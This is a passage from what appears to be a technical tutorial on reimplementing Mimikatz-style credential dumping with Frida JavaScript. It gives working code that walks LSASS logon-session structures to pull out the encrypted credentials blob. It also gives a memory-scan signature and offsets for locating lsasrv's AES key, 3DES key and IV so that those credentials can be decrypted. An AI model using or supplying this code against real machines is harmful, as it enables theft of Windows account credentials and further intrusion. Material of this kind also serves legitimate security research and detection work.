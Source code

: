 The final member, *Credentials*, is a bit more complex. It's a pointer to a struct that Mimikatz calls *_KIWI_MSV1_0_CREDENTIALS*. This, in turn, contains a pointer to the actual "primary credentials" object at offset 0x10 (*_KIWI_MSV1_0_PRIMARY_CREDENTIALS*). Within **that** object, we can find the actual credentials blob at offset 0x18.

```javascript
function getPrimaryCredentialsFromLogonSession(ptr) {
	// Given a pointer to a LogonSession, extract the encrypted credentials blob.
	var credentialsPtr = ptr.add(0x108).readPointer();
	
	// The credentials pointer can be null, in which case we should abort.
	if (credentialsPtr.toString() == "0x0") {
		return null;
	}
	
	// The credentials pointer points to a struct that gentilkiwi calls _KIWI_MSV1_0_CREDENTIALS.
	// This struct, in turn, contains a pointer to the actual "primary credentials" object at offset 0x10.
	var primaryCredentialsPtr = credentialsPtr.add(0x10).readPointer();
	
	// Within the "primary credentials" object (AKA _KIWI_MSV1_0_PRIMARY_CREDENTIALS), the actual encrypted blob is located at offset 0x18.
	var cryptoblobPtr = primaryCredentialsPtr.add(0x18);
	// It's a UNICODE_STRING so we need to parse it to find the correct size and read the cryptoblob.
	var cryptoblobLen = cryptoblobPtr.readUShort();
	var cryptoblobBuffer = cryptoblobPtr.add(0x8).readPointer();
	var cryptoblob = cryptoblobBuffer.readByteArray(cryptoblobLen);
	return cryptoblob;
}
```

Now we have the username, domain name, and credential material. We're not done yet, though. As you might have guessed from the code block above, the credential material is encrypted and is useless to us in its current format. If we want to make use of it, we're going to need to go hunting for decryption keys.

## Keys to the Kingdom

In order to be sure we can decrypt whatever credentials we have obtained from *lsasrv!LogonSessionList*, we will need to extract three more variables from process memory: these are *lsasrv!hAesKey*, *lsasrv!h3DesKey* and the associated Initialization Vector (IV) for the AES key. Each of these values is regenerated every time *lsass.exe* is started, so we'll need to extract them every time we want to dump credentials.

The process for obtaining these variables is exactly the same as for *LogonSessionList*, We need to use some predetermined signature and offset to find an instruction that dereferences them. We can reuse our function from before to do this:

```javascript
var lsasrv = Process.getModuleByName("lsasrv.dll")
var sequence = "83 64 24 30 00 48 8d 45 e0 44 8b 4d d8 48 8d 15"; 

// LsaInitializeProtectedMemory Signature + 0xD = lsasrv!hAesKey
// LsaInitializeProtectedMemory Signature - 0x5C = lsasrv!h3DesKey
// LsaInitializeProtectedMemory Signature + 0x40 = IV for AES Key

Memory.scan(lsasrv.base, lsasrv.size, sequence, {
	onMatch(signature, size) {
		var aesKey = findDereferencedAddress(signature, 0xD);
		var tripleDesKey = findDereferencedAddress(signature, -0x5C);
		var aesIV = findDereferencedAddress(signature, 0x40);
	}
});
```

